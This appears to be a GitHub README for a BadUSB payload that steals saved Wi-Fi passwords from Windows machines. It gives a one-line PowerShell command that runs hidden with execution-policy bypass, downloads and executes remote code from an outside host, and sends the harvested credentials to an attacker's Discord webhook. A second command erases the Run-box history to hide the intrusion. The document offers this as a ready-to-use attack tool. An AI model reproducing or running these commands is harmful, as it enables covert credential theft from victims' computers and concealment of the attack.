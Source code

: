 # WLAN Windows Password - BadUSB

A script used to acquire target WLAN Passwords on a Windows machine and send them using a Discord webhook of your choosing.

**Category**: WLAN, Credentials

## Description

A script used to acquire target WLAN Passwords on a Windows machine and send them using a Discord webhook of your choosing.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then clears run history.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content
* Invoke-powershell command to remove 'Run' history values from Registry

ENG 🇺🇸
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm winwifi.remothe.dev | iex

powershell "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue" | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'
